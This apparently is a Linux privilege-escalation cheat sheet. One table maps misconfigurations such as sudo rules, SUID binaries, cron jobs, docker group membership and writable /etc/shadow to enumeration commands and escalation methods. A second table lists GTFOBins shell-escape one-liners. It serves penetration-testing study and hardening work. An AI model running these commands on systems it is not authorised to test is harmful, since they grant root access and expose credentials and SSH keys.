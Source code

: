 | Category                            | Example Checks                        | Escalation Method                  | Tool / Command                 |
| ----------------------------------- | ------------------------------------- | ---------------------------------- | ------------------------------ |
| **Sudo Abuse**                      | `sudo -l`                             | Misconfigured commands, NOPASSWD   | GTFOBins                       |
| **SUID Binaries**                   | `find / -perm -4000 -type f`          | Abuse exec of privileged binaries  | GTFOBins                       |
| **Capabilities**                    | `getcap -r / 2>/dev/null`             | `cap_setuid`, `cap_sys_admin` etc. | `getcap`, manual               |
| **Cron Jobs**                       | `cat /etc/crontab`                    | Writable scripts executed as root  | Overwrite payload              |
| **Service Misconfigs**              | `/etc/systemd/system/*.service`       | Writable ExecStart path            | Modify service file            |
| **PATH Hijacking**                  | Writable dirs in `$PATH`              | Inject malicious binary            | PATH reorder                   |
| **NFS Misconfig**                   | `/etc/exports` with `no_root_squash`  | Mount → write as root              | `mount -o rw`                  |
| **Passwords & Keys**                | `grep -r pass /etc`                   | Reuse for root / SSH               | config/db creds                |
| **Kernel Exploit**                  | `uname -r`                            | Local kernel vuln                  | `searchsploit linux privilege` |
| **Docker Group**                    | `id` → docker group                   | Escape to host                     | `docker run -v /:/mnt`         |
| **LXD Group**                       | `id` → lxd                            | Privileged container               | LXD init exploit               |
| **Scripts & Backups**               | `/opt`, `/var/backups`                | Hardcoded creds, passwords         | read & reuse                   |
| **DB / Webapp Configs**             | `/var/www/html`                       | Reused credentials                 | SQL / SSH / sudo               |
| **SSH Keys**                        | `/home/*/.ssh/`                       | Root/user reuse                    | authorized\_keys               |
| **Writable Binaries**               | `/usr/local/bin/`                     | Replace executed binary            | PATH persistence               |
| **LD\_PRELOAD / LD\_LIBRARY\_PATH** | env manipulation                      | Run arbitrary .so as root          | export trick                   |
| **Weak File Permissions**           | `/etc/shadow`, `/etc/passwd` writable | Write your hash                    | `openssl passwd`               |

***

#### 🧠 Quick Reference: GTFOBins Hotlist

| Binary | Exploit                                                                      |
| ------ | ---------------------------------------------------------------------------- |
| `vim`  | `:!bash`                                                                     |
| `find` | `find . -exec /bin/sh \;`                                                    |
| `less` | `!bash`                                                                      |
| `awk`  | `awk 'BEGIN {system("/bin/sh")}'`                                            |
| `tar`  | `tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` |
| `nmap` | `--interactive` + `!sh`                                                      |
| `bash` | `sudo bash`                                                                  |
| `perl` | `perl -e 'exec "/bin/sh";'`                                                  |
